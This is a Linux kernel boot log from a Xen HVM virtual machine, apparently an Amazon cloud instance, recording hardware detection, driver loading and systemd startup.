[0.0] x86/fpu: Enabled xstate features 0x7, context size is 832 bytes, using 'standard' format.
[0.0] e820: BIOS-provided physical RAM map:
[0.0] BIOS-e820: [mem 0x0000000000000000-0x000000000009dfff] usable
[0.0] BIOS-e820: [mem 0x000000000009e000-0x000000000009ffff] reserved
[0.0] BIOS-e820: [mem 0x00000000000e0000-0x00000000000fffff] reserved
[0.0] BIOS-e820: [mem 0x0000000000100000-0x000000003fffffff] usable
[0.0] BIOS-e820: [mem 0x00000000fc000000-0x00000000ffffffff] reserved
[0.0] NX (Execute Disable) protection: active
[0.0] SMBIOS 2.7 present.
[0.0] DMI: Xen HVM domU, BIOS 4.2.amazon 08/24/2006
[0.0] Hypervisor detected: Xen HVM
[0.0] Xen version 4.2.
[0.0] Xen Platform PCI: I/O protocol version 1
[0.0] Netfront and the Xen platform PCI driver have been compiled for this kernel: unplug emulated NICs.
[0.0] Blkfront and the Xen platform PCI driver have been compiled for this kernel: unplug emulated disks.
You might have to change the root device
from /dev/hd[a-d] to /dev/xvd[a-d]
in your root= kernel command line option
[0.0] HVMOP_pagetable_dying not supported
[0.0] e820: update [mem 0x00000000-0x00000fff] usable ==> reserved
[0.0] e820: remove [mem 0x000a0000-0x000fffff] usable
[0.0] e820: last_pfn = 0x40000 max_arch_pfn = 0x400000000
[0.0] MTRR default type: write-back
[0.0] MTRR fixed ranges enabled:
[0.0]   00000-9FFFF write-back
[0.0]   A0000-BFFFF write-combining
[0.0]   C0000-FFFFF write-back
[0.0] MTRR variable ranges enabled:
[0.0]   0 base 0000F0000000 mask 3FFFF8000000 uncachable
[0.0]   1 base 0000F8000000 mask 3FFFFC000000 uncachable
[0.0]   2 disabled
[0.0]   3 disabled
[0.0]   4 disabled
[0.0]   5 disabled
[0.0]   6 disabled
[0.0]   7 disabled
[0.0] x86/PAT: Configuration [0-7]: WB  WC  UC- UC  WB  WP  UC- WT
[0.0] found SMP MP-table at [mem 0x000fbc50-0x000fbc5f] mapped at [        (ptrval)]
[0.0] Scanning 1 areas for low memory corruption
[0.0] Base memory trampoline at [        (ptrval)] 98000 size 24576
[0.0] BRK [0x33518000, 0x33518fff] PGTABLE
[0.0] BRK [0x33519000, 0x33519fff] PGTABLE
[0.0] BRK [0x3351a000, 0x3351afff] PGTABLE
[0.0] BRK [0x3351b000, 0x3351bfff] PGTABLE
[0.0] RAMDISK: [mem 0x359e1000-0x36ce7fff]
[0.0] ACPI: Early table checksum verification disabled
[0.0] ACPI: RSDP 0x00000000000EA020 000024 (v02 Xen   )
[0.0] ACPI: XSDT 0x00000000FC00E2A0 000054 (v01 Xen    HVM      00000000 HVML 00000000)
[0.0] ACPI: FACP 0x00000000FC00DF60 0000F4 (v04 Xen    HVM      00000000 HVML 00000000)
[0.0] ACPI: DSDT 0x00000000FC0021C0 00BD19 (v02 Xen    HVM      00000000 INTL 20090123)
[0.0] ACPI: FACS 0x00000000FC002180 000040
[0.0] ACPI: FACS 0x00000000FC002180 000040
[0.0] ACPI: APIC 0x00000000FC00E060 0000D8 (v02 Xen    HVM      00000000 HVML 00000000)
[0.0] ACPI: HPET 0x00000000FC00E1B0 000038 (v01 Xen    HVM      00000000 HVML 00000000)
[0.0] ACPI: WAET 0x00000000FC00E1F0 000028 (v01 Xen    HVM      00000000 HVML 00000000)
[0.0] ACPI: SSDT 0x00000000FC00E220 000031 (v02 Xen    HVM      00000000 INTL 20090123)
[0.0] ACPI: SSDT 0x00000000FC00E260 000031 (v02 Xen    HVM      00000000 INTL 20090123)
[0.0] ACPI: Local APIC address 0xfee00000
[0.0] No NUMA configuration found
[0.0] Faking a node at [mem 0x0000000000000000-0x000000003fffffff]
[0.0] NODE_DATA(0) allocated [mem 0x3ffd5000-0x3fffffff]
[0.0] tsc: Fast TSC calibration using PIT
[0.0] Zone ranges:
[0.0]   DMA      [mem 0x0000000000001000-0x0000000000ffffff]
[0.0]   DMA32    [mem 0x0000000001000000-0x000000003fffffff]
[0.0]   Normal   empty
[0.0]   Device   empty
[0.0] Movable zone start for each node
[0.0] Early memory node ranges
[0.0]   node   0: [mem 0x0000000000001000-0x000000000009dfff]
[0.0]   node   0: [mem 0x0000000000100000-0x000000003fffffff]
[0.0] Initmem setup node 0 [mem 0x0000000000001000-0x000000003fffffff]
[0.0] On node 0 totalpages: 262045
[0.0]   DMA zone: 64 pages used for memmap
[0.0]   DMA zone: 21 pages reserved
[0.0]   DMA zone: 3997 pages, LIFO batch:0
[0.0]   DMA32 zone: 4032 pages used for memmap
[0.0]   DMA32 zone: 258048 pages, LIFO batch:31
[0.0] Reserved but unavailable: 99 pages
[0.0] ACPI: PM-Timer IO Port: 0xb008
[0.0] ACPI: Local APIC address 0xfee00000
[0.0] IOAPIC[0]: apic_id 1, version 17, address 0xfec00000, GSI 0-47
[0.0] ACPI: INT_SRC_OVR (bus 0 bus_irq 0 global_irq 2 dfl dfl)
[0.0] ACPI: INT_SRC_OVR (bus 0 bus_irq 5 global_irq 5 low level)
[0.0] ACPI: INT_SRC_OVR (bus 0 bus_irq 10 global_irq 10 low level)
[0.0] ACPI: INT_SRC_OVR (bus 0 bus_irq 11 global_irq 11 low level)
[0.0] ACPI: IRQ0 used by override.
[0.0] ACPI: IRQ5 used by override.
[0.0] ACPI: IRQ9 used by override.
[0.0] ACPI: IRQ10 used by override.
[0.0] ACPI: IRQ11 used by override.
[0.0] Using ACPI (MADT) for SMP configuration information
[0.0] ACPI: HPET id: 0x8086a201 base: 0xfed00000
[0.0] smpboot: Allowing 15 CPUs, 14 hotplug CPUs
[0.0] PM: Registered nosave memory: [mem 0x00000000-0x00000fff]
[0.0] PM: Registered nosave memory: [mem 0x0009e000-0x0009ffff]
[0.0] PM: Registered nosave memory: [mem 0x000a0000-0x000dffff]
[0.0] PM: Registered nosave memory: [mem 0x000e0000-0x000fffff]
[0.0] e820: [mem 0x40000000-0xfbffffff] available for PCI devices
[0.0] Booting paravirtualized kernel on Xen HVM
[0.0] clocksource: refined-jiffies: mask: 0xffffffff max_cycles: 0xffffffff, max_idle_ns: 7645519600211568 ns
[0.0] random: get_random_bytes called from start_kernel+0x99/0x4fd with crng_init=0
[0.0] setup_percpu: NR_CPUS:8192 nr_cpumask_bits:15 nr_cpu_ids:15 nr_node_ids:1
[0.0] percpu: Embedded 46 pages/cpu @        (ptrval) s151552 r8192 d28672 u262144
[0.0] pcpu-alloc: s151552 r8192 d28672 u262144 alloc=1*2097152
[0.0] pcpu-alloc: [0] 00 01 02 03 04 05 06 07 [0] 08 09 10 11 12 13 14 --
[0.0] xen: PV spinlocks enabled
[0.0] PV qspinlock hash table entries: 256 (order: 0, 4096 bytes)
[0.0] Built 1 zonelists, mobility grouping on.  Total pages: 257928
[0.0] Policy zone: DMA32
[0.0] Kernel command line: BOOT_IMAGE=/boot/vmlinuz-4.15.0-1021-aws root=LABEL=cloudimg-rootfs ro console=tty1 console=ttyS0 nvme.io_timeout=4294967295
[0.0] Calgary: detecting Calgary via BIOS EBDA area
[0.0] Calgary: Unable to locate Rio Grande table in EBDA - bailing!
[0.0] Memory: 983488K/1048180K available (12300K kernel code, 2391K rwdata, 3908K rodata, 2372K init, 2376K bss, 64692K reserved, 0K cma-reserved)
[0.0] SLUB: HWalign=64, Order=0-3, MinObjects=0, CPUs=15, Nodes=1
[0.0] Kernel/User page tables isolation: enabled
[0.0] ftrace: allocating 37478 entries in 147 pages
[4000000.0] Hierarchical RCU implementation.
[4000000.0] 	RCU restricting CPUs from NR_CPUS=8192 to nr_cpu_ids=15.
[4000000.0] 	Tasks RCU enabled.
[4000000.0] RCU: Adjusting geometry for rcu_fanout_leaf=16, nr_cpu_ids=15
[4000000.0] NR_IRQS: 524544, nr_irqs: 952, preallocated irqs: 16
[4000000.0] xen:events: Using 2-level ABI
[4000000.0] xen:events: Xen HVM callback vector for event delivery is enabled
[4000000.0] Console: colour VGA+ 80x25
[4000000.0] console [tty1] enabled
[4000000.0] Cannot get hvm parameter CONSOLE_EVTCHN (18): -22!
[4000000.0] console [ttyS0] enabled
[4000000.0] ACPI: Core revision 20170831
[4000000.0] ACPI: 3 ACPI AML tables successfully acquired and loaded
[4000000.0] clocksource: hpet: mask: 0xffffffff max_cycles: 0xffffffff, max_idle_ns: 30580167144 ns
[4000000.0] hpet clockevent registered
[4012590.0] APIC: Switch to symmetric I/O mode setup
[8797214.0] x2apic: IRQ remapping doesn't support X2APIC mode
[12004299.0] Switched APIC routing to physical flat.
[22666924.0] ..TIMER: vector=0x30 apic1=0 pin1=2 apic2=0 pin2=0
[32000000.0] tsc: Fast TSC calibration using PIT
[48004887.0] tsc: Detected 2399.970 MHz processor
[52004528.0] tsc: Detected 2400.054 MHz TSC
[52016727.0] Calibrating delay loop (skipped), value calculated using timer frequency.. 4800.10 BogoMIPS (lpj=9600216)
[68005949.0] pid_max: default: 32768 minimum: 301
[72070014.0] Security Framework initialized
[80004040.0] Yama: becoming mindful.
[84055921.0] AppArmor: AppArmor initialized
[88241470.0] Dentry cache hash table entries: 131072 (order: 8, 1048576 bytes)
[96117080.0] Inode-cache hash table entries: 65536 (order: 7, 524288 bytes)
[104030958.0] Mount-cache hash table entries: 2048 (order: 2, 16384 bytes)
[112014881.0] Mountpoint-cache hash table entries: 2048 (order: 2, 16384 bytes)
[120351090.0] mce: CPU supports 2 MCE banks
[124036266.0] Last level iTLB entries: 4KB 1024, 2MB 1024, 4MB 1024
[128003783.0] Last level dTLB entries: 4KB 1024, 2MB 1024, 4MB 1024, 1GB 4
[136003494.0] Spectre V2 : Mitigation: Full generic retpoline
[140001652.0] Speculative Store Bypass: Vulnerable
[165828900.0] clocksource: xen: mask: 0xffffffffffffffff max_cycles: 0x1cd42e4dffb, max_idle_ns: 881590591483 ns
[176023475.0] Xen: using vcpuop timer interface
[176032015.0] installing Xen timer for CPU 0
[180111677.0] smpboot: CPU0: Intel(R) Xeon(R) CPU E5-2676 v3 @ 2.40GHz (family: 0x6, model: 0x3f, stepping: 0x2)
[184057450.0] cpu 0 spinlock event irq 53
[188120120.0] Performance Events: unsupported p6 CPU model 63 no PMU driver, software events only.
[192062597.0] Hierarchical SRCU implementation.
[196661290.0] NMI watchdog: Perf event create on CPU 0 failed with -2
[200009797.0] NMI watchdog: Perf NMI watchdog permanently disabled
[204213544.0] smp: Bringing up secondary CPUs ...
[208008649.0] smp: Brought up 1 node, 1 CPU
[212007617.0] smpboot: Max logical packages: 15
[216008120.0] smpboot: Total of 1 processors activated (4800.10 BogoMIPS)
[220324515.0] devtmpfs: initialized
[224092426.0] x86/mm: Memory block size: 128MB
[228243285.0] evm: security.selinux
[232011134.0] evm: security.SMACK64
[236008501.0] evm: security.SMACK64EXEC
[240007990.0] evm: security.SMACK64TRANSMUTE
[244004736.0] evm: security.SMACK64MMAP
[248007490.0] evm: security.apparmor
[252007875.0] evm: security.ima
[255626852.0] evm: security.capability
[256213945.0] clocksource: jiffies: mask: 0xffffffff max_cycles: 0xffffffff, max_idle_ns: 7645041785100000 ns
[260030763.0] futex hash table entries: 4096 (order: 6, 262144 bytes)
[264281367.0] RTC time: 12:04:38, date: 12/21/18
[268155981.0] NET: Registered protocol family 16
[272130796.0] audit: initializing netlink subsys (disabled)
[276162251.0] audit: type=2000 audit(1545393878.626:1): state=initialized audit_enabled=0 res=1
[280121685.0] cpuidle: using governor ladder
[284009008.0] cpuidle: using governor menu
[288078749.0] ACPI: bus type PCI registered
[292010193.0] acpiphp: ACPI Hot Plug PCI Controller Driver version: 0.5
[296639948.0] PCI: Using configuration type 1 for base access
[301191889.0] HugeTLB registered 2.00 MiB page size, pre-allocated 0 pages
[304312441.0] ACPI: Added _OSI(Module Device)
[308012050.0] ACPI: Added _OSI(Processor Device)
[312006482.0] ACPI: Added _OSI(3.0 _SCP Extensions)
[316008134.0] ACPI: Added _OSI(Processor Aggregator Device)
[320029821.0] ACPI: Added _OSI(Linux-Dell-Video)
[324034589.0] ACPI: Added _OSI(Linux-Lenovo-NV-HDMI-Audio)
[328323227.0] xen: --> pirq=16 -> irq=9 (gsi=9)
[331823202.0] ACPI: Interpreter enabled
[332019685.0] ACPI: (supports S0 S4 S5)
[336005805.0] ACPI: Using IOAPIC for interrupt routing
[340043356.0] PCI: Using host bridge windows from ACPI; if necessary, use "pci=nocrs" and report a bug
[344569571.0] ACPI: Enabled 2 GPEs in block 00 to 0F
[420316390.0] ACPI: PCI Root Bridge [PCI0] (domain 0000 [bus 00-ff])
[424019107.0] acpi PNP0A03:00: _OSC: OS supports [ASPM ClockPM Segments MSI]
[428017458.0] acpi PNP0A03:00: _OSC failed (AE_NOT_FOUND); disabling ASPM
[432040471.0] acpi PNP0A03:00: fail to add MMCONFIG information, can't access extended PCI configuration space under this bridge.
[437327815.0] acpiphp: Slot [0] registered
[441458080.0] acpiphp: Slot [3] registered
[444572762.0] acpiphp: Slot [4] registered
[448589162.0] acpiphp: Slot [5] registered
[452589562.0] acpiphp: Slot [6] registered
[456907838.0] acpiphp: Slot [7] registered
[460588788.0] acpiphp: Slot [8] registered
[464529668.0] acpiphp: Slot [9] registered
[468526877.0] acpiphp: Slot [10] registered
[472538820.0] acpiphp: Slot [11] registered
[476582467.0] acpiphp: Slot [12] registered
[480513845.0] acpiphp: Slot [13] registered
[484492750.0] acpiphp: Slot [14] registered
[488534618.0] acpiphp: Slot [15] registered
[492522623.0] acpiphp: Slot [16] registered
[496554151.0] acpiphp: Slot [17] registered
[500536805.0] acpiphp: Slot [18] registered
[504599294.0] acpiphp: Slot [19] registered
[508613655.0] acpiphp: Slot [20] registered
[512605089.0] acpiphp: Slot [21] registered
[516671137.0] acpiphp: Slot [22] registered
[520667249.0] acpiphp: Slot [23] registered
[524611994.0] acpiphp: Slot [24] registered
[528642191.0] acpiphp: Slot [25] registered
[532521958.0] acpiphp: Slot [26] registered
[536623890.0] acpiphp: Slot [27] registered
[540617055.0] acpiphp: Slot [28] registered
[544765646.0] acpiphp: Slot [29] registered
[548612800.0] acpiphp: Slot [30] registered
[552714668.0] acpiphp: Slot [31] registered
[556552139.0] PCI host bridge to bus 0000:00
[560012424.0] pci_bus 0000:00: root bus resource [io  0x0000-0x0cf7 window]
[564007160.0] pci_bus 0000:00: root bus resource [io  0x0d00-0xffff window]
[568011420.0] pci_bus 0000:00: root bus resource [mem 0x000a0000-0x000bffff window]
[572013069.0] pci_bus 0000:00: root bus resource [mem 0xf0000000-0xfbffffff window]
[576012283.0] pci_bus 0000:00: root bus resource [bus 00-ff]
[580286295.0] pci 0000:00:00.0: [8086:1237] type 00 class 0x060000
[583621159.0] pci 0000:00:01.0: [8086:7000] type 00 class 0x060100
[587551883.0] pci 0000:00:01.1: [8086:7010] type 00 class 0x010180
[589618211.0] pci 0000:00:01.1: reg 0x20: [io  0xc100-0xc10f]
[590522231.0] pci 0000:00:01.1: legacy IDE quirk: reg 0x10: [io  0x01f0-0x01f7]
[592014892.0] pci 0000:00:01.1: legacy IDE quirk: reg 0x14: [io  0x03f6]
[596014153.0] pci 0000:00:01.1: legacy IDE quirk: reg 0x18: [io  0x0170-0x0177]
[600017938.0] pci 0000:00:01.1: legacy IDE quirk: reg 0x1c: [io  0x0376]
[605093715.0] pci 0000:00:01.3: [8086:7113] type 00 class 0x068000
[605155743.0] * Found PM-Timer Bug on the chipset. Due to workarounds for a bug,
* this clock source is slow. Consider trying other clock sources
[611143923.0] pci 0000:00:01.3: quirk: [io  0xb000-0xb03f] claimed by PIIX4 ACPI
[613820403.0] pci 0000:00:02.0: [1013:00b8] type 00 class 0x030000
[614700428.0] pci 0000:00:02.0: reg 0x10: [mem 0xf0000000-0xf1ffffff pref]
[615180233.0] pci 0000:00:02.0: reg 0x14: [mem 0xf3000000-0xf3000fff]
[618557606.0] pci 0000:00:03.0: [5853:0001] type 00 class 0xff8000
[619685245.0] pci 0000:00:03.0: reg 0x10: [io  0xc000-0xc0ff]
[620182481.0] pci 0000:00:03.0: reg 0x14: [mem 0xf2000000-0xf2ffffff pref]
[626047486.0] ACPI: PCI Interrupt Link [LNKA] (IRQs *5 10 11)
[628420777.0] ACPI: PCI Interrupt Link [LNKB] (IRQs 5 *10 11)
[632391633.0] ACPI: PCI Interrupt Link [LNKC] (IRQs 5 10 *11)
[636428660.0] ACPI: PCI Interrupt Link [LNKD] (IRQs *5 10 11)
[669110123.0] xen:balloon: Initialising balloon driver
[676188633.0] SCSI subsystem initialized
[680076192.0] libata version 3.00 loaded.
[680190616.0] pci 0000:00:02.0: vgaarb: setting as boot VGA device
[684000000.0] pci 0000:00:02.0: vgaarb: VGA device added: decodes=io+mem,owns=io+mem,locks=none
[684010921.0] pci 0000:00:02.0: vgaarb: bridge control possible
[688009773.0] vgaarb: loaded
[691574079.0] ACPI: bus type USB registered
[692042107.0] usbcore: registered new interface driver usbfs
[696026458.0] usbcore: registered new interface driver hub
[700037279.0] usbcore: registered new device driver usb
[704117108.0] EDAC MC: Ver: 3.0.0
[709010892.0] PCI: Using ACPI for IRQ routing
[712012630.0] PCI: pci_cache_line_size set to 64 bytes
[712730583.0] e820: reserve RAM buffer [mem 0x0009e000-0x0009ffff]
[712885309.0] NetLabel: Initializing
[716006891.0] NetLabel:  domain hash size = 128
[720007284.0] NetLabel:  protocols = UNLABELED CIPSOv4 CALIPSO
[724034694.0] NetLabel:  unlabeled traffic allowed by default
[728217434.0] HPET: 3 timers in total, 0 timers will be used for per-cpu timer
[732028320.0] hpet0: at MMIO 0xfed00000, IRQs 2, 8, 0
[736009287.0] hpet0: 3 comparators, 64-bit 62.500000 MHz counter
[744040291.0] clocksource: Switched to clocksource xen
[762129275.0] VFS: Disk quotas dquot_6.6.0
[767211362.0] VFS: Dquot-cache hash table entries: 512 (order 0, 4096 bytes)
[774865282.0] random: fast init done
[779219045.0] AppArmor: AppArmor Filesystem Enabled
[784713979.0] pnp: PnP ACPI init
[789365523.0] system 00:00: [mem 0x00000000-0x0009ffff] could not be reserved
[796449347.0] system 00:00: Plug and Play ACPI device, IDs PNP0c02 (active)
[796557833.0] system 00:01: [io  0x08a0-0x08a3] has been reserved
[803273905.0] system 00:01: [io  0x0cc0-0x0ccf] has been reserved
[809828198.0] system 00:01: [io  0x04d0-0x04d1] has been reserved
[816484507.0] system 00:01: Plug and Play ACPI device, IDs PNP0c02 (active)
[816527928.0] xen: --> pirq=17 -> irq=8 (gsi=8)
[816566112.0] pnp 00:02: Plug and Play ACPI device, IDs PNP0b00 (active)
[816600184.0] xen: --> pirq=18 -> irq=12 (gsi=12)
[816617483.0] pnp 00:03: Plug and Play ACPI device, IDs PNP0f13 (active)
[816637273.0] xen: --> pirq=19 -> irq=1 (gsi=1)
[816654278.0] pnp 00:04: Plug and Play ACPI device, IDs PNP0303 PNP030b (active)
[816673114.0] xen: --> pirq=20 -> irq=6 (gsi=6)
[816675024.0] pnp 00:05: [dma 2]
[816690852.0] pnp 00:05: Plug and Play ACPI device, IDs PNP0700 (active)
[816726798.0] xen: --> pirq=21 -> irq=4 (gsi=4)
[816738678.0] pnp 00:06: Plug and Play ACPI device, IDs PNP0501 (active)
[816792399.0] system 00:07: [io  0x10c0-0x1141] has been reserved
[823694822.0] system 00:07: [io  0xb044-0xb047] has been reserved
[830123664.0] system 00:07: Plug and Play ACPI device, IDs PNP0c02 (active)
[859627027.0] pnp: PnP ACPI: found 8 devices
[870896669.0] clocksource: acpi_pm: mask: 0xffffff max_cycles: 0xffffff, max_idle_ns: 2085701024 ns
[881068904.0] pci_bus 0000:00: resource 4 [io  0x0000-0x0cf7 window]
[881070659.0] pci_bus 0000:00: resource 5 [io  0x0d00-0xffff window]
[881072084.0] pci_bus 0000:00: resource 6 [mem 0x000a0000-0x000bffff window]
[881073629.0] pci_bus 0000:00: resource 7 [mem 0xf0000000-0xfbffffff window]
[881304275.0] NET: Registered protocol family 2
[887469737.0] TCP established hash table entries: 8192 (order: 4, 65536 bytes)
[894636662.0] TCP bind hash table entries: 8192 (order: 5, 131072 bytes)
[901469128.0] TCP: Hash tables configured (established 8192 bind 8192)
[910384231.0] UDP hash table entries: 512 (order: 2, 16384 bytes)
[918017947.0] UDP-Lite hash table entries: 512 (order: 2, 16384 bytes)
[926287637.0] NET: Registered protocol family 1
[932154252.0] pci 0000:00:00.0: Limiting direct PCI/PCI transfers
[939972751.0] pci 0000:00:01.0: PIIX3: Enabling Passive Release
[947484564.0] pci 0000:00:01.0: Activating ISA DMA hang workarounds
[955698287.0] pci 0000:00:02.0: Video device with shadowed ROM at [mem 0x000c0000-0x000dffff]
[965760966.0] PCI: CLS 0 bytes, default 64
[965826364.0] Unpacking initramfs...
[1251931051.1] Freeing initrd memory: 19484K
[1256370252.1] Scanning for low memory corruption every 60 seconds
[1261529945.1] Initialise system trusted keyrings
[1265242812.1] Key type blacklist registered
[1270703630.1] workingset: timestamp_bits=36 max_order=18 bucket_order=0
[1278759071.1] zbud: loaded
[1282878516.1] squashfs: version 4.0 (2009/01/31) Phillip Lougher
[1289539736.1] fuse init (API version 7.26)
[1295108453.1] Key type asymmetric registered
[1298571769.1] Asymmetric key parser 'x509' registered
[1302435161.1] Block layer SCSI generic (bsg) driver version 0.4 loaded (major 247)
[1308347952.1] io scheduler noop registered
[1311560798.1] io scheduler deadline registered
[1314961112.1] io scheduler cfq registered (default)
[1318964495.1] intel_idle: Please enable MWAIT in BIOS SETUP
[1319064795.1] input: Power Button as /devices/LNXSYSTM:00/LNXPWRBN:00/input/input0
[1324979857.1] ACPI: Power Button [PWRF]
[1328381431.1] input: Sleep Button as /devices/LNXSYSTM:00/LNXSLPBN:00/input/input1
[1334783883.1] ACPI: Sleep Button [SLPF]
[1338657919.1] xen: --> pirq=22 -> irq=28 (gsi=28)
[1338772212.1] xen:grant_table: Grant tables using version 1 layout
[1343758938.1] Grant table initialized
[1347166831.1] Cannot get hvm parameter CONSOLE_EVTCHN (18): -22!
[1351528333.1] Serial: 8250/16550 driver, 4 ports, IRQ sharing enabled
[1388458801.1] 00:06: ttyS0 at I/O 0x3f8 (irq = 4, base_baud = 115200) is a 16550A
[1396306426.1] Linux agpgart interface v0.103
[1402652628.1] loop: module loaded
[1406942041.1] Invalid max_queues (4), will use default max: 1.
[1413146002.1] ata_piix 0000:00:01.1: version 2.13
[1414367912.1] scsi host0: ata_piix
[1417942126.1] scsi host1: ata_piix
[1421407329.1] ata1: PATA max MWDMA2 cmd 0x1f0 ctl 0x3f6 bmdma 0xc100 irq 14
[1427375516.1] ata2: PATA max MWDMA2 cmd 0x170 ctl 0x376 bmdma 0xc108 irq 15
[1435175394.1] libphy: Fixed MDIO Bus: probed
[1439163785.1] tun: Universal TUN/TAP device driver, 1.6
[1443671722.1] PPP generic driver version 2.4.2
[1449954098.1] xen_netfront: Initialising Xen virtual ethernet driver
[1457572685.1] ehci_hcd: USB 2.0 'Enhanced' Host Controller (EHCI) Driver
[1473237021.1] ehci-pci: EHCI PCI platform driver
[1477331938.1] ehci-platform: EHCI generic platform driver
[1481865344.1] ohci_hcd: USB 1.1 'Open' Host Controller (OHCI) Driver
[1487124516.1] ohci-pci: OHCI PCI platform driver
[1491288855.1] ohci-platform: OHCI generic platform driver
[1496019580.1] uhci_hcd: USB Universal Host Controller Interface driver
[1501787328.1] i8042: PNP: PS/2 Controller [PNP0303:PS2K,PNP0f13:PS2M] at 0x60,0x64 irq 1,12
[1512138293.1] serio: i8042 KBD port at 0x60,0x64 irq 1
[1517061669.1] serio: i8042 AUX port at 0x60,0x64 irq 12
[1521867400.1] mousedev: PS/2 mouse device common for all mice
[1528305597.1] input: AT Translated Set 2 keyboard as /devices/platform/i8042/serio0/input/input2
[1536216041.1] rtc_cmos 00:02: rtc core: registered rtc_cmos as rtc0
[1541608368.1] rtc_cmos 00:02: alarms up to one day, 114 bytes nvram, hpet irqs
[1549307710.1] device-mapper: uevent: version 1.0.3
[1558880159.1] device-mapper: ioctl: 4.37.0-ioctl (2017-09-20) initialised: dm-devel@redhat.com
[1565660037.1] NET: Registered protocol family 10
[1573786413.1] blkfront: xvda: barrier or flush: disabled; persistent grants: disabled; indirect descriptors: enabled;
[1582735856.1] Segment Routing with IPv6
[1586085339.1] NET: Registered protocol family 17
[1589697824.1] Key type dns_resolver registered
[1595366946.1] intel_rdt: Intel RDT L3 allocation detected
[1601257953.1] RAS: Correctable Errors collector initialized.
[1606481120.1] sched_clock: Marking stable (1606281847, 0)->(10112567157, -8506285310)
[1612342540.1] registered taskstats version 1
[1615606009.1]  xvda: xvda1
[1618389864.1] Loading compiled-in X.509 certificates
[1624882494.1] Loaded X.509 cert 'Build time autogenerated kernel key: 1472665054521b238871beb9554d15504325c156'
[1632653831.1] zswap: loaded using pool lzo/zbud
[1639087595.1] Key type big_key registered
[1642294522.1] Key type trusted registered
[1647154794.1] Key type encrypted registered
[1650919509.1] AppArmor: AppArmor sha1 policy hashing enabled
[1655497188.1] ima: No TPM chip found, activating TPM-bypass! (rc=-19)
[1660714633.1] ima: Allocated hash algorithm: sha1
[1664278207.1] evm: HMAC attrs: 0x1
[1667608602.1]   Magic number: 14:400:77
[1671075735.1] rtc_cmos 00:02: setting system clock to 2018-12-21 12:04:40 UTC (1545393880)
[1677355139.1] BIOS EDD facility v0.16 2004-Jun-25, 0 devices found
[1681780336.1] EDD information not available.
[1687733151.1] Freeing unused kernel memory: 2372K
[1696070973.1] Write protecting the kernel read-only data: 18432k
[1701254154.1] Freeing unused kernel memory: 2008K
[1705743711.1] Freeing unused kernel memory: 188K
[1715477224.1] x86/mm: Checked W+X mappings: passed, no W+X pages found.
[1721193335.1] x86/mm: Checking user space page tables
[1731102653.1] x86/mm: Checked W+X mappings: passed, no W+X pages found.
[1751868658.1] random: udevadm: uninitialized urandom read (16 bytes read)
[1757302492.1] random: systemd-udevd: uninitialized urandom read (16 bytes read)
[1762931607.1] random: systemd-udevd: uninitialized urandom read (16 bytes read)
[1945727269.1] AVX2 version of gcm_enc/dec engaged.
[1949613014.1] AES CTR mode by8 optimization enabled
[2272165675.2] tsc: Refined TSC clocksource calibration: 2400.001 MHz
[2277150119.2] clocksource: tsc: mask: 0xffffffffffffffff max_cycles: 0x22983858435, max_idle_ns: 440795258295 ns
[3660065068.3] raid6: sse2x1   gen()  9113 MB/s
[3708065561.3] raid6: sse2x1   xor()  6397 MB/s
[3756067802.3] raid6: sse2x2   gen() 10919 MB/s
[3808061488.3] raid6: sse2x2   xor()  7010 MB/s
[3860065926.3] raid6: sse2x4   gen() 12602 MB/s
[3912063347.3] raid6: sse2x4   xor()  8000 MB/s
[3964064174.3] raid6: avx2x1   gen() 15380 MB/s
[4016062541.4] raid6: avx2x1   xor() 12087 MB/s
[4068062848.4] raid6: avx2x2   gen() 20769 MB/s
[4120063141.4] raid6: avx2x2   xor() 12674 MB/s
[4172062033.4] raid6: avx2x4   gen() 23766 MB/s
[4220061121.4] raid6: avx2x4   xor() 14645 MB/s
[4224268335.4] raid6: using algorithm avx2x4 gen() 23766 MB/s
[4229047220.4] raid6: .... xor() 14645 MB/s, rmw enabled
[4233500421.4] raid6: using avx2x2 recovery algorithm
[4239865431.4] xor: automatically using best checksumming function   avx
[4247550014.4] async_tx: api initialized (async)
[4318120055.4] Btrfs loaded, crc32c=crc32c-intel
[4353096368.4] EXT4-fs (xvda1): mounted filesystem with ordered data mode. Opts: (null)
[4517023086.4] ip_tables: (C) 2000-2006 Netfilter Core Team
[4528241306.4] systemd[1]: systemd 237 running in system mode. (+PAM +AUDIT +SELINUX +IMA +APPARMOR +SMACK +SYSVINIT +UTMP +LIBCRYPTSETUP +GCRYPT +GNUTLS +ACL +XZ +LZ4 +SECCOMP +BLKID +ELFUTILS +KMOD -IDN2 +IDN -PCRE2 default-hierarchy=hybrid)
[4552411301.4] systemd[1]: Detected virtualization xen.
[4559563819.4] systemd[1]: Detected architecture x86-64.
[4574473157.4] systemd[1]: Set hostname to <ubuntu>.
[4583794096.4] systemd[1]: Initializing machine ID from random generator.
[4590444341.4] systemd[1]: Installed transient /etc/machine-id file.
[4750864284.4] systemd[1]: Created slice User and Session Slice.
[4760750738.4] systemd[1]: Created slice System Slice.
[4769034200.4] systemd[1]: Listening on Journal Audit Socket.
[4778512441.4] systemd[1]: Created slice system-serial\x2dgetty.slice.
[4874400462.4] Loading iSCSI transport class v2.0-870.
[4904053086.4] iscsi: registered transport (tcp)
[4940496394.4] EXT4-fs (xvda1): re-mounted. Opts: discard
[5106934367.5] systemd-journald[393]: Received request to flush runtime journal from PID 1
[5121476059.5] iscsi: registered transport (iser)
[6501940919.6] audit: type=1400 audit(1545393885.328:2): apparmor="STATUS" operation="profile_load" profile="unconfined" name="lxc-container-default" pid=464 comm="apparmor_parser"
[6502505558.6] audit: type=1400 audit(1545393885.328:3): apparmor="STATUS" operation="profile_load" profile="unconfined" name="lxc-container-default-cgns" pid=464 comm="apparmor_parser"
[6504509960.6] audit: type=1400 audit(1545393885.332:4): apparmor="STATUS" operation="profile_load" profile="unconfined" name="lxc-container-default-with-mounting" pid=464 comm="apparmor_parser"
[6505058227.6] audit: type=1400 audit(1545393885.332:5): apparmor="STATUS" operation="profile_load" profile="unconfined" name="lxc-container-default-with-nesting" pid=464 comm="apparmor_parser"
[7032124407.7] audit: type=1400 audit(1545393885.860:6): apparmor="STATUS" operation="profile_load" profile="unconfined" name="/sbin/dhclient" pid=482 comm="apparmor_parser"
[7032718031.7] audit: type=1400 audit(1545393885.860:7): apparmor="STATUS" operation="profile_load" profile="unconfined" name="/usr/lib/NetworkManager/nm-dhcp-client.action" pid=482 comm="apparmor_parser"
[7033191452.7] audit: type=1400 audit(1545393885.860:8): apparmor="STATUS" operation="profile_load" profile="unconfined" name="/usr/lib/NetworkManager/nm-dhcp-helper" pid=482 comm="apparmor_parser"
